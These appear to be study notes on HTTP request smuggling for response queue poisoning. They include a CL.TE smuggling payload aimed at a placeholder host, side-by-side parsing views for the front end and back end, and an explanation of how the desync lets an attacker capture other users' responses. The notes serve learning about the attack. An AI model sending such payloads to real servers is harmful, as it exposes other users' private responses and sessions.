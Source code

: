 This attack is possible both via classic HTTP/1 request smuggling and by exploiting HTTP/2 downgrading. 
#  Smuggling a complete request
## Front-end (CL)
<mark class="hltr-b">POST / HTTP/1.1\r\n</mark>
<mark class="hltr-b">Host: vulnerable-website.com\r\n</mark>
<mark class="hltr-b">Content-Type: x-www-form-urlencoded\r\n</mark>
<mark class="hltr-b">Content-Length: 61\r\n</mark>
<mark class="hltr-b">Transfer-Encoding: chunked\r\n</mark>
<mark class="hltr-b">\r\n</mark>
<mark class="hltr-b">0\r\n</mark>
<mark class="hltr-b">\r\n</mark>
<mark class="hltr-b">GET /anything HTTP/1.1\r\n</mark>
<mark class="hltr-b">Host: vulnerable-website.com\r\n</mark>
\r\n
<mark class="hltr-g">GET / HTTP/1.1\r\n</mark>
<mark class="hltr-g">Host: vulnerable-website.com\r\n</mark>
\r\n
## Back-end (TE)
<mark class="hltr-b">POST / HTTP/1.1\r\n</mark>
<mark class="hltr-b">Host: vulnerable-website.com\r\n</mark>
<mark class="hltr-b">Content-Type: x-www-form-urlencoded\r\n</mark>
<mark class="hltr-b">Content-Length: 61\r\n</mark>
<mark class="hltr-b">Transfer-Encoding: chunked\r\n</mark>
<mark class="hltr-b">\r\n</mark>
<mark class="hltr-b">0\r\n</mark>
\r\n
<mark class="hltr-o">GET /anything HTTP/1.1\r\n</mark>
<mark class="hltr-o">Host: vulnerable-website.com\r\n</mark>
\r\n
<mark class="hltr-g">GET / HTTP/1.1\r\n</mark>
<mark class="hltr-g">Host: vulnerable-website.com\r\n</mark>
\r\n
# Desynchronizing the response queue
![[desync-response-queue.png]]
When issuing the response, it will send the first one in the queue, that is, the leftover response to the smuggled request.

The correct response from the back-end is then left without a matching request. This cycle is repeated every time a new request is forwarded down the same connection to the back-end. 

# Stealing other users' responses
Once the response queue is poisoned, the attacker can just send an arbitrary request to capture another user's response. 
![[stealing-response.png]]
a common default is to terminate a connection after it has handled 100 requests. 
